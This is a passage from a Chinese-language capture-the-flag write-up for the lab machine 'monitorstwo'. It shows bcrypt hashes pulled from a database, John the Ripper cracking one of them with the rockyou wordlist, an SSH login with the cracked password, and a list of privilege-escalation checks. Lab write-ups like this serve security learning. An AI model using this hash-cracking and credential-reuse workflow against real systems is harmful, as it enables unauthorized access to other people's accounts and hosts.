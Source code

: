 ### 密码暴破

从DB里拿到3个密码，感觉guest那个太短、格式也和另外两个差很多。最有可能是拿到marcus或者admin的密码然后SSH连接目标主机？或者进cacti的管理界面去探索主机的访问。  
稍微整理如下，方便等下给JTR暴破：
```bash
└─$ cat user_auth_fromSQL.txt 
admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
guest:43e9a4ab75570f5b
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

姑且这3个都用JTR跑一下。  
一开始直接运行 `john` 没有指定format跑了一阵觉得不对，好奇查了一下 `$2y$10$`，似乎是PHP的hash算法。继续搜搜 `john the ripper $2y$10$`，发现[这篇文章](https://security.stackexchange.com/questions/243981/for-bcrypt-why-is-jtr-so-much-faster-than-hashcat)，看来按照这样指定好些：
```bash
└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt user_auth_fromSQL.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (marcus) 
```

结果先暴破出来了marcus的密码。


## flag: user

按之前的思路先试试SSH连接，成功：
```bash
└─$ ssh marcus@10.10.11.211 

……

Last login: Sun May 14 22:09:32 2023 from 10.10.14.67
marcus@monitorstwo:~$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
marcus@monitorstwo:~$ ls
user.txt
marcus@monitorstwo:~$ cat user.txt 
846a…………ada0
```

看来admin就暴破不出来了，停掉john暴破开始探索目标主机。


## Privilege Escalation


### 探索

- 无sudo
- SUID无法利用
- cron
- 查看可写文件
- 查看nginx配置文件
- LinPEAS枚举
